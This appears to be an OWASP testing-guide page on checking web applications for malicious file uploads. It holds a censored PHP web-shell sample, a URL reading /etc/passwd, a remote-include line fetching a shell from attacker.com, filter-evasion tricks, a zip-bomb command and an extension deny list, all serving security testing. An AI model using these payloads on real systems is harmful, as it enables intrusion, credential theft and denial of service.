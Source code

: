 # Test Upload of Malicious Files

|ID               |
|-----------------|
|WSTG-BUSL-09|

## Summary

Many application’s business processes allow for the upload of data/information. We regularly check the validity and security of text but accepting files can introduce even more risk. To reduce the risk we may only accept certain file extensions, but attackers are able to encapsulate malicious code into inert file types. Testing for malicious files verifies that the application/system is able to correctly protect against attackers uploading malicious files.

Vulnerabilities related to the uploading of malicious files is unique in that these “malicious” files can easily be rejected through including business logic that will scan files during the upload process and reject those perceived as malicious. Additionally, this is different from uploading unexpected files in that while the file type may be accepted the file may still be malicious to the system.

Finally, “malicious” means different things to different systems, for example Malicious files that may exploit SQL server vulnerabilities may not be considered a “malicious” to a main frame flat file environment.

The application may allow the upload of malicious files that include exploits or shellcode without submitting them to malicious file scanning. Malicious files could be detected and stopped at various points of the application architecture such as: IPS/IDS, application server anti-virus software or anti-virus scanning by application as files are uploaded (perhaps offloading the scanning using SCAP).

## Example

Suppose a picture sharing application allows users to upload their `.gif` or `.jpg` graphic files to the web site. What if an attacker is able to upload a PHP shell, or exe file, or virus? The attacker may then upload the file that may be saved on the system and the virus may spread itself or through remote processes exes or shell code can be executed.

## How to Test

### Generic Testing Method

- Review the project documentation and use exploratory testing looking at the application/system to identify what constitutes and “malicious” file in your environment.
- Develop or acquire a known “malicious” file. An [EICAR anti-malware test file](https://2016.eicar.org/85-0-Download.html) can be used as harmless, but widely detected by antivirus software.
- Try to upload the malicious file to the application/system and verify that it is correctly rejected.
- If multiple files can be uploaded at once, there must be tests in place to verify that each file is properly evaluated.

### Exploit Payload

- Using the Metasploit payload generation functionality generates a shellcode as a Windows executable using the Metasploit “msfpayload” command.
- Submit the executable via the application’s upload functionality and see if it is accepted or properly rejected.

### Malicious File

- Develop or create a file that should fail the application malware detection process. There are many available on the Internet such as ducklin.htm or ducklin-html.htm.
- Submit the executable via the application’s upload functionality and see if it is accepted or properly rejected.

[Intended Use - EICAR](https://2016.eicar.org/86-0-Intended-use.html)

### WebShell Backdoor

For example upload the `WebShell-backdoor.php` to the target victim site.

```php
<?php
    if(isset($_REQUEST['rq'])){
        echo "<pre>";
        $rq= ($_REQUEST['rq']);
        /* Replace CENSORED with system ($rq) to activate the sample */
        CENSORED;
        echo "</pre>";
        die;
    }
?>
```

Once it's uploaded, the testers/hackers may get the password by visiting the URL below.

`http://TargetVictimSite.com/WebShell-backdoor.php?rq=cat+/etc/passwd`

or it may execute by remote file injection as below.

`http://TargetVictimSite.com/File.php?include=http://attacker.com/WebShell-backdoor.php`

Other PHP example:

```php
<?php @CENSORED($_POST['password']);?>
```

> Replace @CENSORED with @eval

### Invalid File

- Set up the intercepting proxy to capture the “valid” request for an accepted file.
- Send an “invalid” request through with a valid/acceptable file extension and see if the request is accepted or properly rejected.

### Source Code Review

When there is file upload feature supported, the following API/methods are common to be found in the source code.

- Java: `new file`, `import`, `upload`, `getFileName`, `Download`, `getOutputString`
- C/C++: `open`, `fopen`
- PHP: `move_uploaded_file()`, `Readfile`, `file_put_contents()`, `file()`, `parse_ini_file()`, `copy()`, `fopen()`, `include()`, `require()`

### Evasion of the Filter

The following techniques may be used to bypass the website file upload checking rules and filters.

- Change the value of `Content-Type` as `image/jpeg` in HTTP request
- Change the extensions as executable extensions such as `file.php5`, `file.shtml`, `file.asa`, `file.cert`, `file.jsp`, `file.jspx`, `file.aspx`, `file.asp`, `file.phtml`
- Changes of capital letters of extensions. such as file.PhP or file.AspX
- Using special trailing such as spaces, dots or null characters such as `file.asp...`, `file.php;jpg`, `file.asp%00.jpg`, `1.jpg%00.php`

The executable extensions should be in deny list such as `file.php5`, `file.shtml`, `file.asa`, `file.cert`, `file.jsp`, `file.jspx`, `file.aspx`, `file.asp`, `file.phtml`

- In IIS6 vulnerability, if the filename is `file.asp;file.jpg`, the file will be executed as `file.asp`:

`http://www.targetVictim.com/path/file.asp;file.jpg`

- In NginX, if the original filename is `test.jpg`, testers/hackers may change it to `test.jpg/x.php`

Once it's uploaded, the file will be executed as `x.php`.

### Zip Files Path

One Zip file may contain the malicious PHP with target purpose path such as `..\\..\\..\\..\\hacker.php`. If the website doesn't check the unzip target path, the hacker.php may unzip to the specified path.

### Zip Bombs

A [Zip bomb](https://en.wikipedia.org/wiki/Zip_bomb) (more generally known as a decompression bomb) is an archive file that contains a large volume of data. It's intended to cause a denial of service by exhausting the disk space or memory of the target system that tries to extract the archive. Note that although the Zip format is the most example of this, other formats are also affected, including gzip (which is frequently used to compress data in transit).

At its simplest level, a Zip bomb can be created by compressing a large file consisting of a single character. The example below shows how to create a 1MB file that will decompress to 1GB:

```bash
dd if=/dev/zero bs=1M count=1024 | zip -9 > bomb.zip
```

There are a number of methods that can be used to achieve much higher compression ratios, including multiple levels of compression, [abusing the Zip format](https://www.bamsoftware.com/hacks/zipbomb/) and [quines](https://research.swtch.com/zip) (which are archives that contain a copy of themselves, causing infinite recursion).

A successful Zip bomb attack will result in a denial of service, and can also lead to increased costs if an auto-scaling cloud platform is used. **Do not carry out this kind of attack unless you have considered these risks and have written approval to do so.**

## Related Test Cases

- [Test File Extensions Handling for Sensitive Information](../02-Configuration_and_Deployment_Management_Testing/03-Test_File_Extensions_Handling_for_Sensitive_Information.md)
- [Test Upload of Unexpected File Types](08-Test_Upload_of_Unexpected_File_Types.md)

## Tools

- Metasploit's payload generation functionality
- Intercepting proxy

## References

- [OWASP - Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [Why File Upload Forms are a Major Security Threat](https://www.acunetix.com/websitesecurity/upload-forms-threat/)
- [Overview of Malicious File Upload Attacks](http://securitymecca.com/article/overview-of-malicious-file-upload-attacks/)
- [8 Basic Rules to Implement Secure File Uploads](https://software-security.sans.org/blog/2009/12/28/8-basic-rules-to-implement-secure-file-uploads)
- [Stop people uploading malicious PHP files via forms](https://stackoverflow.com/questions/602539/stop-people-uploading-malicious-php-files-via-forms)
- [How to Tell if a File is Malicious](https://www.techsupportalert.com/content/how-tell-if-file-malicious.htm)
- [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)
- [Implementing Secure File Upload](https://infosecauditor.wordpress.com/tag/malicious-file-upload/)
- [Metasploit Generating Payloads](https://www.offensive-security.com/metasploit-unleashed/Generating_Payloads)

## Remediation

While safeguards such as blacklisting or whitelisting of file extensions, using “Content-Type” from the header, or using a file type recognizer may not always be protections against this type of vulnerability. Every application that accepts files from users must have a mechanism to verify that the uploaded file does not contain malicious code. Uploaded files should never be stored where the users or attackers can directly access them.
